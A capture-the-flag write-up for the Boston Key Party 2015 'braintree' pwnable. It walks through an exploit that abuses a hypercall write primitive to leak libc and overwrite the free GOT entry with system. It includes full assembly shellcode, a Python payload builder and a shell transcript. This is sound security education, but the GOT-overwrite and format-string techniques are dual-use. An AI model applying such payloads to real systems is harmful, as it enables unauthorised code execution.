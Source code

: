 ```yaml
---
title: 'braintree (tz)'
author:
  - Brian Pak (Cai)
layout: post
excerpt_separator: <!--more-->
categories:
  - Pwn
ctf: Boston Key Party CTF
year: 2015
---
```

This is a write-up for **braintree** challenge, which is the last part of 3-chained pwnable challenge from [Boston Key Party CTF](https://ctftime.org/event/163) last weekend.  _You can also read this content from the [origial post](https://www.bpak.org/blog/2015/03/bkpctf-2015-braintree-tz-write-up/)_.
<!--more-->

The binaries were packaged into a [tar ball](https://www.bpak.org/blog/wp-content/uploads/2015/03/zenhv-e941cb4585deafcf5a1b86050a3ebe7a.gz).

> The MBTA wrote a cool system. It's pretty bad though, sometimes the commands work, sometimes they don't...
> Exploit it. (tz flag) 54.165.91.92 8899

The goal is to get "tz" flag by exploiting the kernel space process.

_If you haven't read the previous write-up for quincy-adams, I strongly recommend you to read before continuing with this one as we will assume knowledge gained from it._

As it was mentioned previously, we will be using the same primitive: **hypercall #92**.

Therefore, we have an arbitrary-write-anywhere primitive. So, the question is "what can we overwrite in **tz** that will get us an arbitrary code execution?"

We started looking at each of the hypercall handlers in **tz**.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_3.png" lightbox="braintree" %}

Then, we stumbled upon hypercall #85.

This function seemed like some sort of cleanup (we called it **delete_op** in our shellcode) function for an object used in **tz**. (As I said previously, we didn't do much of reversing on **tz** as we did for **uspace** and **kspace**)

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/tz_0.png" lightbox="braintree" %}

It seems like the first argument (v3) is a word that represents id of some sort, but the important thing is that we can control its value. v2 is an offset to the tz data structure, and the value at **tz_space + v2 (where v2 is 0)** is 0.

Since NX is enabled on **tz**, we decided to overwrite the GOT entry to execute **system**. Since the addresses are randomized, we first need to leak an address to calculate the address of system. We are going to abuse the hypercall #92 to do 3 things:

  * Leak out libc address, so we can calculate the address of system.
  * Overwrite **free** (.got.plt in tz) with &system.
  * Overwrite contents in **v4 + 8** (aka, tz_space + 8) with a pointer to our command buffer.

However, doing all of these comes with a price. The size limit (256 bytes) starts to become an issue here. We can either put another stager in the middle to allow us more space, or optimize our payload such that it fits under 256 bytes! We chose to do latter :p

<p class="filename">shell.asm</p>
{% highlight asm linenos %}
[BITS 64]

section .text
global _start
_start:

; yay we are in kernel!!!
; optimizing for size...
mov ebp, 0x8

; leak out &getpwnam
mov eax, 0x402380       ; do_encrypt
mov edi, 0x602290       ; src (getpwnam .got.plt in tz)
mov rsi, [rel dst]      ; dst (kernel_space + 128)
mov edx, ebp            ; size
call rax

call sleep

; update the address (to be &system) and
; xor the address back with the key
mov rcx, [rel dst]
mov rax, [rcx]
xor rax, [rel xor_key]
sub rax, 0x79340        ; &getpwnam - &system (this may be different depending on libc)
xor rax, [rel xor_key]
mov [rcx], rax

; overwrite free GOT
mov eax, 0x402380       ; do_encrypt
mov rdi, [rel dst]      ; src (kernel_space + 128)
mov esi, 0x602230       ; dst (free .got.plt in tz)
mov edx, ebp            ; size
call rax

call sleep

mov rax, [rel command]  ; encrypt our command pointer
xor rax, [rel xor_key]
push rax

; overwrite [fake_obj + 8] with cmd pointer
mov eax, 0x402380       ; do_encrypt
mov rdi, rsp
mov rsi, [rel fake]
mov edx, ebp            ; size
call rax

call sleep

; setting command to 'sh'
mov rcx, [rel command]
mov dword [rcx], 0x6873

; hypercall to trigger free
; sem_lock
mov ebp, [0x60338C]     ; semaphore
mov edi, ebp
xor esi, esi
mov eax, 0x4015D0
call rax

xor rcx, rcx
mov rax, [0x603360]     ; kernel_space
mov dword [rax], 85     ; delete_op hypercall
mov [rax + 8], rcx      ; 0
lea rdx, [rax + 48]     ; rax + 48 points to args
mov [rax + 16], rdx

mov word [rax + 48], 0  ; id

; sem_unlock
mov edi, ebp
xor esi, esi
mov eax, 0x401600
call rax

call sleep

sleep:
; sleep(1)
mov eax, 0x400D00
xor edi, edi
inc edi
jmp rax

dst:
dq 0x900000080         ; scratch pad in kernel_space
fake:
dq 0x100000008         ; tz_space + 8
xor_key:
dq 0x7473656c72616863
command:
dq 0x900001000         ; we will put our command here
{% endhighlight %}
<br />

At first, we were over ~10 bytes, but once we have "optimized" a little bit, we finally got our payload to be 254 bytes!

Note that we are not using the same shell.asm as before (our new payload is now called shell.asm). However, we can continue to use the same stage1.asm and the python script from **kspace** exploit. For convenience sake, it is also attached here.

<p class="filename">pwn_tz.py</p>
{% highlight python linenos %}
#!/usr/bin/python
import struct

def p(v):
    return struct.pack('<Q', v)

def u(v):
    return struct.unpack('<Q', v)[0]

f = open('payload', 'wb')

f.write('create lol\n'.ljust(0x400, '#'))
f.write(open('shell.bin').read().ljust(0x100, '\0'))

pop_pop_ret = 0x40110F
stage1 = open('stage1.bin').read()

f.write('create fmt\n'.ljust(0x400, '#'))

payload = '%280x' + p(pop_pop_ret)
f.write(payload.ljust(0x100, '\0'))

f.write(('cat fmt ' + stage1 + '\n').ljust(0x400, '#'))
{% endhighlight %}
<br />

<p class="filename">Pwn!</p>
{% highlight bash %}
$ nasm shell.asm -f bin -o shell.bin
$ ls -l shell.bin
-rw-rw-r-- 1 user user 254 Mar 4 21:58 shell.bin
$ nasm stage1.asm -f bin -o stage1.bin
$ python pwn_tz.py
$ (cat ../tz/payload; cat -) | sudo ./tz
bksh> bksh> bksh>
whoami
tz
{% endhighlight %}
<br />

We have abused the hypercall #92 (encrypt) to exploit both kspace and tz, but there may be another way to exploit kspace without going through the hypervisor.

Well, that's it for the 3-parts pwnable challenge write-up =)

Thank you for reading, and happy hacking!

Write-up by Cai (Brian Pak) [[https://www.bpak.org](http://www.bpak.org)]